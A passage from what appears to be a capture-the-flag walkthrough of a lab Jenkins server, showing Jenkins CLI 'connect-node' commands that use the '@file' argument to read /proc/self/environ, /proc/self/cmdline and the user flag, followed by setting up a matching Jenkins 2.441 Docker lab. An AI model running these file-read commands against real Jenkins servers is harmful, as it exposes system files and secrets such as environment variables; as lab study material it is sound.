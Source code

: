 BOOM! we get the contents,

![](Files/image2.png)

## Initial Access

Let's try what service we are and what are the environment variables are held by our process
```bash
java -jar jenkins-cli.jar -s "http://10.10.11.10:8080/" connect-node "@/proc/self/cmdline"

java -jar jenkins-cli.jar -s "http://10.10.11.10:8080/" connect-node "@/proc/self/environ"
```


![](Files/image3.png)

We can grab the user flag just by knowing the home directory,
```bash
java -jar jenkins-cli.jar -s "http://10.10.11.10:8080/" connect-node "@/var/jenkins_home/user.txt"
```


### Creating lab environment of Jenkins in docker to get the file structure of jenkins
We will be using exact version which is 2.441 
```bash
docker pull jenkins/jenkins:2.441
docker run -p 8080:8080 -p 50000:50000 jenkins/jenkins:2.441
```

